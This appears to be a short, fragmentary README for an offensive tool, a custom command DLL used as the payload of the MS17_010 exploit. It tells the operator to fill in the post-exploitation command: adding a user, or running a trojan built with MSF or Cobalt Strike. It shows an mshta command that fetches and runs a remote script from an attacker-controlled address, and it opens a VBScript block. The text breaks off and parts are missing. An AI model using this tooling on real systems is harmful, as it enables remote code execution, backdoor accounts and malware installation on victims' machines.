


custom_command_dll
custom command dll file，usually using in MS17_010。
Usage
just open the file and fill in what you want.
eg: run taskmgr.exe

add user:

run a Trojan
create a Trojan with MSF or Cobalt Strike
http://192.168.1.105:8080/test.txt
1 | <script language="VBScript"> |
set command like mshta http://192.168.1.105:8080/test.txt when you create the dll…
then…